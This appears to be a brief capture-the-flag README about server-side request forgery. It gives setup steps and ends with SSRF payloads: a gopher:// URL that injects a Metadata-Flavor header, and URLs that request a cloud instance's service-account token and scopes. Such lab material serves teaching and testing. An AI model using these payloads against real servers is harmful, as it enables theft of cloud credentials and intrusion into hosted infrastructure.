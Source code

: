 ## CTF

## /secure_app/
A more secure way of doing things. Requests the URL from the user's browser instead of requesting from the server

## setup

* docker build & push to GCR - 
* pulumi up

gopher://metadata.google.internal:80/computeMetadata/v1/instance/machine-type%20HTTP/1.1%0AMetadata-Flavor:%20Google%0A%0A

http://metadata/computeMetadata/v1/

http://metadata/instanceMetadata/v1/instance/service-accounts/default/token

metadata/instanceMetadata/v1/instance/service-accounts/default/scopes